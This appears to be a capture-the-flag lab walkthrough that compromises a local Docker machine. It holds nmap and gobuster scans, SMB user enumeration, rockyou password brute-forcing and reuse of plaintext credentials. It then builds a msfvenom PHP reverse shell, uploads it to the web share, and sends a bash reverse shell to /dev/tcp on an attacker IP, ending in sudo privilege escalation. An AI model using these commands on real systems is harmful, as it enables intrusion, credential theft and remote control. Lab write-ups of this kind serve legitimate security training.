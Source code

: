 ![image](https://github.com/user-attachments/assets/cfb7fbad-3667-47b4-b108-aed57a13b859)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p21,22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/07b43ae1-64f5-46ee-abf9-dc7ff8ffb339)

## **We have a webPage, lets investigate:**
![image](https://github.com/user-attachments/assets/c7db3a08-f385-436a-abb4-1fe7de5a7c3a)

## ## **Applying Fuzzing Web**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/7ea88022-200d-4a9e-aac7-9a2ac24cf96b)

## **We have this info**

![image](https://github.com/user-attachments/assets/7d1b79c8-2ff5-4da0-9e40-d911492c6338)
![image](https://github.com/user-attachments/assets/3c0ade06-a644-4238-9035-96679c5f853a)
![image](https://github.com/user-attachments/assets/f0aa51b8-a1fc-4493-a29d-58d6ea1cb46c)

## **For now we have no information, let's investigate port 139 and 445 of SAMBA.**
```bash
rpcclient -U "" -N 172.17.0.2
enumdomusers
```
![image](https://github.com/user-attachments/assets/7804a1c9-986b-4d6d-8078-37af05d45b4d)

## **brute force to find a password but the only one we got results on is for satriani7
```bash
crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/07e500b8-db5d-42cc-a25b-7d6bfb6cbf55)

## **we list resources with the new credentials**
```bash
crackmapexec smb 172.17.0.2 -u 'satriani7' -p '50cent' --shares
```
![image](https://github.com/user-attachments/assets/e5ad1173-8c48-493b-a1d1-15bfe886f1ab)

## **we connect to the shared resource**
```bash
smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'
```
![image](https://github.com/user-attachments/assets/6081ca2a-2778-4abd-83a6-102b26d15e7a)

## **We download the files to our attacking machine**
```bash
mget *
```
![image](https://github.com/user-attachments/assets/a3abbe24-ba12-4c5b-8744-5ad4535dab57)
```bash
nano credentials.txt
```
![image](https://github.com/user-attachments/assets/74893465-0820-4fa7-a708-74a4fd968c5e)
Usuario: administrador
    - Contraseña: Adm1nP4ss2024

## **We go back to list shared resources but this time as administrator**
```bash
crackmapexec smb 172.17.0.2 -u 'administrador' -p 'Adm1nP4ss2024' --shares
```
![image](https://github.com/user-attachments/assets/e1571349-8879-4c95-a7a1-99d7f4ff618d)

## **We have a shared resource that allows us to read and write to it, let's list its content**
```bash
smbmap -H 172.17.0.2 -u "administrador" -p "Adm1nP4ss2024" -r home
```
![image](https://github.com/user-attachments/assets/7167afc3-3147-456d-a31f-34924302ff7a)

## **This is where all the WEB files are uploaded, so we can upload a file to get a reverseshell.**
```bash
smbclient //172.17.0.2/home -U 'administrador%Adm1nP4ss2024'
```

## **we will create our malicious file**
```bash
msfvenom -p php/reverse_php LHOST=192.168.1.228 LPORT=443 -f raw >pwned.php
```
![image](https://github.com/user-attachments/assets/6694121c-a517-418c-af17-00943f1b1807)

## **Uploading...**
```bash
put pwned.php
```
![image](https://github.com/user-attachments/assets/b2d8e7fc-fef3-491d-b4b7-5fa3e585a66c)

## **we listen on port 443 and open the browser on the website and file we want to intercept**
```
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/47f82d25-5d1f-48e2-8b26-de1c57a7a40b)
![image](https://github.com/user-attachments/assets/1decb108-b7fb-4dc0-8c6b-6f7922bb368f)
![image](https://github.com/user-attachments/assets/f762c223-d4d7-4a69-a9df-6561e862aa6a)

## **in order to stabilize our connection we are going to send us a connection through another port by sending us a shell**
```bash
nc -nlvp 444
```
![image](https://github.com/user-attachments/assets/a9558a9e-028c-4bad-8d8b-e4de00b77a0f)

## **here we send the shell from the current connection to our port 444**
```bash
bash -c "sh -i >& /dev/tcp/192.168.1.228/444 0>&1"
```
![image](https://github.com/user-attachments/assets/339b2e2f-87f1-48f7-9c73-d5050d65439a)

## **we already have a more robust connection and now we apply a TTY treatment.*
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
![image](https://github.com/user-attachments/assets/44b3d8a8-f72b-4cc5-b391-f47f4e95d4ed)

## **raising Privileges**
```bash
sudo -l
```
![image](https://github.com/user-attachments/assets/997d8255-50f6-41cf-aac7-15099934830c)
![image](https://github.com/user-attachments/assets/100867b0-4af5-4a45-86e3-97c8c7cc64d0)

```bash
sudo service ../../bin/sh
```
![image](https://github.com/user-attachments/assets/1bf4b1aa-f4d7-4341-9118-eaa8ce6820de)




